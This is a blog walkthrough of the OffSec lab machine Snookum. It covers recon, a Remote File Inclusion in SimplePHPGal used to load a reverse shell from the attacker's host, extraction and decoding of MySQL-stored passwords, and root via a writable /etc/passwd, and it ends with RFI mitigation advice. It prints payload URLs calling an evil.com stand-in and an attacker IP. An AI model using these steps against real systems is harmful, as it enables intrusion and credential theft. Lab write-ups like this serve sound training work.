

+++ 
draft = false
date = 2025-03-16T13:07:16+01:00
title = "Snookum Offsec Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Remote File Inclusion", "Privilege Escalation", "Feroxbuster", "CyberChef", "MySQL Credential Extraction", "LinPEAS", "Base64 Password Decoding", "Writable /etc/passwd Exploit"]


categories = []
externalLink = ""
series = ["Offsec"]
+++

## Snookum OffSec Walkthrough

### RFI Vulnerability

Remote File Inclusion (RFI) is a vulnerability in web applications that allows an attacker to upload and execute files hosted on external servers. This flaw occurs when an applicationdynamically includes files without properly validating user input, which can lead to the execution of malicious code. If proper security measures are not taken, RFI can completely compromise a system, facilitating data theft, malware execution, or even full control of the server.

Some web applications allow users to choose which file to upload via a URL. If the application uses functions such as include() or require() in PHP without proper restrictions, an attacker can exploit this vulnerability.

For example, an application that uploads files based on a URL parameter:

<http://example.com/index.php?file=pagina.php>

If the source code does not verify the origin of the file:
```php
<?php

include($GET['file']);

?>
```

An attacker could modify the file parameter to include a malicious remote file:

    -   http://example.com/index.php?file=http://evil.com/malware.php

This would cause the server to download and execute the malware.php code, allowing the attacker to take control of the system or execute arbitrary commands.

### Consequences of an RFI Attack

Potential consequences of exploiting this vulnerability include:

- Remote Code Execution (RCE): The attacker can execute commands on the compromised server.
- Malware installation: Malicious scripts can be hosted to attack other users or systems.
- Theft of sensitive information: Critical credentials, databases, and files can be exposed.
- Server compromise: The attacker can take full control of the system and use it to launch other attacks.

## Machine Exploitation

### 1 Reconnaissance

First, a ping is made to verify connection with the machine:



A bit of a weird TTL is observed, it is usually 64 for Linux machines and 128 for Windows machines.

A nmap SYN scan is run to discover the open ports:
```sh
sudo nmap -sS -T5 -vvv -p- 192.168.194.58 -Pn -oN nmap_inicial
```

Where the parameters mean:

- sS: Escaneo SYN
- T5: Using NMAP Timing Template 5
- vvv: Triple verb for NMAP to display a lotof information
- p-: All ports are scanned
- Pn: Skip host discovery
- ogG: Formato Grep

The result is as follows:


Second, a more thorough scan is performed only on the open ports to detect which services are running on those ports:
```sh
sudo nmap -sCV -vvv -p21,22,80,111,139,445,3306,33060 192.168.194.58 -oN nmap_exhaustive
```

Where the parameters mean:

- sCV: Execution of service detection scripts and their version.
- vvv: Triple verb for NMAP to display a lotof information
- p-: Only open ports are scanned
- oN: Formato normal

The result of the scan is as follows:


Several interesting services can be observed: ftp, ssh, http, smb, mysql... For the time being, we will launch the feroxbuster tool to discover subdirectories on the website:
```sh
feroxbuster -u http://192.168.194.58:80 -x html,htm,php,txt -w /home/kali/SecLists/Discovery/Web-Content/common.txt -n
```


The db.php and functions.php subdirectories are visible.

Trying to enunmerar mysql without username or password:


Testing the ftp connection without a username or password:


There is no luck in either of them. Let's investigate the website:


### 2 Initial exploitation

We have interesting information: this is a commercial tool, simple php photo gallery V0.8. An RFI vulnerability to RCE has been found on the internet for version 0.7 of the tool.

    -   https://www.exploit-db.com/exploits/48424

The RFI is as follows:


By running and testing the PoC, any image hosted on the internet or another server can be uploaded. Here is our RFI:
```sh
http://192.168.155.58/image.php?img=https://chiefdennis.github.io/avatar.png
```


This RFI in SimplePHPGal 0.7, also applicable to version 0.8, is possible because the img parameter in image.php is included directly with "include($GET['img'])"; without validation. This allows an attacker to supply an external URL pointing to a malicious file, running it on the server. The vulnerability arises because allow_url_fopen and/or allow_url_include are enabled, allowing the inclusion of remote files without restrictions.

It is possible that apart from an RFI, we are dealing with a remote execution of commands. Let's try to load a php reverse Shell hosted on our attacking machine into the service. To do this, we set up a simple http server with Python:
```sh
python3 -m http.server 80
```

An attempt is made to run the reverse Shell p0wnyshell:


P0wnyshell doesn't work. Let's try [Pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell). The payload on this occasion is:
```sh
http://192.168.155.58/image.php?img=http://192.168.45.218:80/rshell.php
```


The web server has been launched on port 80 and the reverse shell on port 21. Apparently, the reverse shell does not work through ports that are not open to the system. Once the reverse shell is obtained, we proceed to do a TTY treatment to obtain a fully interactive console. To do this, we execute the following commands:
```sh
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty size
stty rows X cols X
```

### 3 Pivot to User Michael

Since we have a running MySQL database, we have tried to find out if such a database can be accessed. To do this, the grep command has been used recursively in search of the "DBPASS" key, which may contain the password of the database. The command looks a bit weird due to the incorrect size of the TTY, but the command is:
```sh
grep -rni –exclude-dir={proc,sys,dev,bin} –color=auto “DBPASS” | 2>/dev/null
```


Database access credentials have been found. Now you need to connect using the following command:
```sh
mysql --host=127.0.0.1 --user=root --password=_MalapropDoffUtilize1337_ SimplePHPGal
```


Unfolding the user table, we can see that the passwords are converted to what appears to be base64:

| josh | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |

| Michael | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ== |

| serena | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ== |

However, they are doubly coded in base64. This can be easily decrypted using the CyberChef tool:


The cracked passwords are as follows:

- Josh -> MobilizeHissSeedtime747
- Michael -> HockSydneyCertify123
- Serena -> OverallCrestLean000

Attempts have been made to access the victim machine using ssh first with the user serena, resulting in a permission denied error. However, it has been possible to access it with michael's username and password


And with this the first flag has been obtained, located on the desktop of user michael.

### 4 Privilege escalation

The linPEAS.sh tool has been used to list the victim machine under the user michael:


LinPEAS has detected that the /etc/passwd file has write permissions. This allows us to escalate privileges by introducing a new user with root permissions. The instructions on Sekkio's Medium page have been followed:

First, a new hasheada password is generated using openssl. In this case, the password is "dennis":


Next, a new entry is created in the file or /etc/passwd by copying the root attributes except for the username and password:


The next step is as simple as logging in with the dennis user and reading the root flag:


The machine has been pwned.

### 5 RFI Attack Mitigation

To mitigate this vulnerability, user input must be validated and restricted, allowing only files from an authorized directory using whitelists (in_array() or scandir()). You should disable allow_url_include and allow_url_fopen on php.ini or with ini_set(), preventing the inclusion of remote files. It is also recommended to use realpath() to verify that the requested file belongs to an allowed directory and to apply basename() to prevent traversal attacks.